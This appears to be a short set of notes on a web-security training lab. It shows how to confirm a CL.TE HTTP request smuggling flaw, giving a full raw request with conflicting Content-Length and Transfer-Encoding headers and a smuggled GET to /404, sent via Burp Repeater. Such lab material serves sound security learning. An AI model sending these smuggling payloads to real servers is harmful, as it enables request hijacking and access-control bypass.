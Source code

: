 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

#### Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.
